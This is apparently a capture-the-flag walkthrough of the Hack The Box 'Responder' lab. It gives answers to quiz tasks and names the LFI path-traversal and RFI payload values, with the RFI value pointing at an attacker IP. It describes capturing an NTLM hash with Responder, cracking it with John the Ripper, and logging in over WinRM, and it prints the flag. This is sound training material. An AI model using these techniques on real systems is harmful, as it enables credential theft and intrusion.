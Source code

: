 ### Responder

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br>
**Tags:** WinRM, Custom Applications, Protocols, XAMPP, SMB, Responder, PHP, Reconnaissance, Password Cracking, Hash Capture, Remote File Inclusion, Remote Code Execution<br>


---

#### Task 1

**When visiting the web service using the IP address, what is the domain that we are being redirected to?**

> unika.htb

We use the `curl` command with the `-L` flag to follow the redirect:

![Redirect](redirect.png)



---

#### Task 2

**Which scripting language is being used on the server to generate webpages?**

> php

We use the `curl` command with the `-I` flag to get the header:

![Header](header.png)



---

#### Task 3

**What is the name of the URL parameter which is used to load different language versions of the webpage?**

> page

We try using a browser to visit `http://unika.htb`, but get a server not found error.

![Browser Error](browser_error.png)

The `/etc/hosts` file maps IP addresses with hostnames. We can add a line to the `/etc/hosts` file mapping the website IP address to `unika.htb`.

![Add Mapping to /etc/hosts](add_host.png)

Now the website appears correctly in our browser:
![Website](website.png)

Upon looking at the website, we notice a navigation pane in the top right corner. We see that clicking on the `EN` button gives us options to change the website language to `FR` and `DE`. Clicking on the `FR` button changes the website language to French and redirects us to `http://unika.htb/index.php?page=french.html`. Clicking on the `DE` button changes the website language to German and redirects us to `http://unika.htb/index.php?page=german.html`. When the website language is changed to both French and German, the website uses the URL parameter `page` to load a different language version of the web page.



---

#### Task 4

**Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> ../../../../../../../../windows/system32/drivers/etc/hosts



---

#### Task 5

**Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> //10.10.14.6/somefile



---

#### Task 6

**What does NTLM stand for?**

> New Technology LAN Manager



---

#### Task 7

**Which flag do we use in the Responder utility to specify the network interface?**

> -I

We use Responder on the `tun0` interface:

![Launching Responder](responder1.png)



---

#### Task 8

**There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**

> john the ripper



---

#### Task 9

**What is the password for the administrator user?**

> badminton

After launcing Responder, we exploit a remote file inclusion vulnerability and visit `http://unika.htb?page=//{OUR IP}/somefile`. The Responder machine attempts to access a file on an SMB server located on our machine and the Responder utility allows us to steal their NTLM Hash user credentials.

![Stealing NTLM Hash User Credentials](responder2.png)

Next we use the `wget` command to download the [rockyou.txt wordlist](https://github.com/josuamarcelc/common-password-list/raw/refs/heads/main/rockyou.txt/rockyou_1.txt) as a file called `wordlist.txt`. Then we use John the Ripper with our downloaded wordlist:

![John The Ripper](john.png)



---

#### Task 10

**We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**

> 5985



---

#### Flag

> ea81b7afddd03efaa0945333ed147fac

We login to the Evil-WinRM shell with our stolen credentials. Then we view the contents the `flag.txt` file:

![Flag](flag.png)


---